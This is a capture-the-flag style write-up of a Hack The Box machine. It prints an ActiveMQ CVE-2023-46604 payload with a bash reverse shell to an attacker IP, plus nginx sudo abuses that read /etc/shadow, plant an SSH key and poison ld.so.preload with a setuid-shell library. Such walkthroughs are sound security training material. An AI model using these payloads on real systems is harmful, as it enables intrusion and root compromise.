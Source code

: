 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)


- **Notable CVEs:** 
  - CVE-2023-46604 (ActiveMQ RCE)
  - CVE-2022-41347 (Zimbra-like LD_PRELOAD abuse)

---

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.243
```

```
nmap -p 22,80,1883,5672,8161,39751,61613,61614,61616 -sCV 10.10.11.243
```

- [80](HTTP.md): nginx, requires HTTP Basic Auth (`admin:admin`)
- 8161: Jetty webserver (ActiveMQ console)
- 61616: ActiveMQ 5.15.15 (vulnerable)
- MQTT, AMQP also running (ports 1883, 5672)

---

## 🐚 Shell as `activemq`

### 🧨 [CVE-2023-46604 – ActiveMQ RCE](https://github.com/evkl1d/CVE-2023-46604)

#### Step 1: Host malicious Spring XML

Edit `poc.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans 
       http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>bash -i &gt;&amp; /dev/tcp/10.10.14.13/6969 0&gt;&amp;1</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Host it:

```bash
python3 -m http.server 80
```

#### Step 2: Exploit

```bash
python3 exploit.py -i 10.10.11.243 -u http://10.10.14.13/poc.xml
```

#### Step 3: Catch Shell

```bash
nc -lnvp 6969
```

#### Upgrade Shell

```bash
script /dev/null -c bash
```

```
# [CTRL+Z]
stty raw -echo; fg
reset
xterm
```

---

## 🧑‍💻 Shell as Root

```bash
sudo -l
# (ALL) NOPASSWD: /usr/sbin/nginx
```

---

### 🧬 Method 1: File Read via Root nginx

`nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Start nginx:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Read files:

```bash
curl localhost:1337/etc/shadow
curl localhost:1337/root/root.txt
```

---

### ✍️ Method 2: File Write via DAV PUT

Updated `nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Start server:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Write SSH key:

```bash
curl -X PUT localhost:1338/root/.ssh/authorized_keys \
    -d 'ssh-ed25519 AAAA... user@host'
```

SSH as root:

```bash
ssh -i id_ed25519 root@10.10.11.243
```

---

### ☠️ Method 3: LD_PRELOAD Poisoning

#### 1. Write `nginx.conf` with poisoned error_log

```nginx
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1339;
        root /;
    }
}
```

```bash
sudo /usr/sbin/nginx -c /tmp/nginx.conf
curl localhost:1339/tmp/pwn.so
```

#### 2. Create malicious `.so`

```c
// pwn.c
#include <unistd.h>
#include <sys/types.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/rootshell", 0, 0);
   chmod("/tmp/rootshell", 04755);
   unlink("/etc/ld.so.preload");
}
```

```bash
gcc -fPIC -shared -o /tmp/pwn.so pwn.c -ldl
cp /bin/bash /tmp/rootshell
```

#### 3. Trigger Load

```bash
sudo -l
/tmp/rootshell -p
```

---

## 🏁 Flags

```bash
cat /home/activemq/user.txt
cat /root/root.txt
```